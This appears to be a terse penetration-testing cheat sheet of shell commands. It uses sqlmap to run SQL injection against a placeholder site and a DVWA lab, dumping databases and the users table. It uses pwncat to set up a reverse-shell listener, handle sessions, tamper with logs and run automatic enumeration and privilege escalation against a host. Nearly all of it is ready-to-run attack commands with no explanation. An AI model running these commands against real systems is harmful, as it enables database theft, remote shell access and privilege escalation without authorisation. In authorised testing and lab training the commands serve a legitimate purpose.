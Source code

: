 ## SQLMAP

<https://github.com/sqlmapproject/sqlmap.git>

```sh
sqlmap.py -u "http://www.truc.com/index.php" --form
sqlmap.py -u "http://www.truc.com/index.php" --data "[post data]"
sqlmap.py -u "http://www.truc.com/index.php" --data "[post data]" --dump
```

```sh
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --dbs
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --tables -D dvwa
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --columns -D dvwa -T users
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --dump -D dvwa -T users
```

```sh
--form
--form --dbs
--form --tables -D [database]
--form --columns -D [database] -T [table]
--form --dump -D [database] -T [table] --fresh-queries
```

## pwncat

```sh
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

```sh
pwncat-cs
listen -m linux 1234
sessions
sessions 0
ctrl+d
```

### track modifications

```sh
tamper
tamper --revert --all

source env/bin/activate
pwncat user@IP
run enumerate.gather
run escalate.auto
run escalate.auto exec
```

